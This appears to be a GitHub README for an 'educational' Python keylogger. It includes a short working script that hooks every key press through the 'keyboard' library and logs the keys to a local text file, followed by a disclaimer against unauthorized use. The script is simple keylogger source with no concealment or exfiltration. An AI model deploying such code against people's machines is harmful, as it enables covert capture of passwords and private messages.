 # Python Keylogger (Educational Purposes)

## Overview

This repository is part of a cybersecurity coding series, demonstrating how a simple keylogger can be built using Python. The purpose is **educational**, to understand how keyloggers function in a controlled environment.  
## Features

- Logs keystrokes in real-time to a local file (`keystrokes2.txt`).
- Uses Python's `keyboard` library ( (pip install keyboard) 
- Designed for educational testing only.

## Code Example

```python
import keyboard

log_file = 'keystrokes2.txt'

def on_key_press(event):
    with open(log_file, 'a') as f:
        f.write(f'{event.name}\n')

keyboard.on_press(on_key_press)
keyboard.wait()
```

## Disclaimer

This keylogger is intended **only for educational purposes** . Unauthorized use on systems you do not own or have explicit permission to test on is illegal and unethical.



